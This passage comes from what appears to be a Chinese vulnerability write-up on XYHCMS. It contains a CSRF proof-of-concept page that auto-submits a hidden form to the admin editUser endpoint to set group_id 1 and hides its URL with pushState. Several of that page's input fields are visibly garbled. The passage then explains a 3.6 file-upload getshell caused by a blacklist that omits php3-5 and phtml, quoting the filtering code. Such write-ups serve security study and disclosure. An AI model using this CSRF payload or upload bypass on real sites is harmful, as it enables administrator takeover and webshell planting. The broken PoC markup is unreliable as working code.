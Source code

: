 ```
<html>
  <head>
      <script>
          function submit(){
            var form = document.getElementById('test_form');
            form.submit();

          }
</script>
  </head>
    <body onload="submit()">


  <script>history.pushState('', '', '/')</script>
    <form action="http://xyh.com/xyhai.php?s=/Auth/editUser" method="POST" id="test_form">
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" name="department[]" value="1" />
      <input type="hidden" name="department[]" value="4" />
      <input type="hidden" name="department[]" value="3" />
      <input type="hidden" name="group_id[]" value="1" />
      <input type="hidden"  />
      <input type="hidden" aa@test.com" />
      <input type="hidden"  />
    </form>
  </body>
</html>
```

### 五. XYHCMS 3.6 后台文件上传 getshell

#### 漏洞介绍

此漏洞的影响范围是 XYHCMS 3.6。

漏洞形成原因是：对后缀过滤不严，未过滤 php3-5，phtml（老版本直接未过滤 php）。

#### 漏洞分析

找到

/App/Manage/Controller/SystemController.class.php 文件中第 246-255 行代码

```
if (!empty($data['CFG_UPLOAD_FILE_EXT'])) {
                $data['CFG_UPLOAD_FILE_EXT'] = strtolower($data['CFG_UPLOAD_FILE_EXT']);
                $_file_exts = explode(',', $data['CFG_UPLOAD_FILE_EXT']);
                $_no_exts = array('php', 'asp', 'aspx', 'jsp');
                foreach ($_file_exts as $ext) {
                    if (in_array($ext, $_no_exts)) {
                        $this->error('允许附件类型错误！不允许后缀为：php,asp,aspx,jsp！');
                    }
                }
            }
```
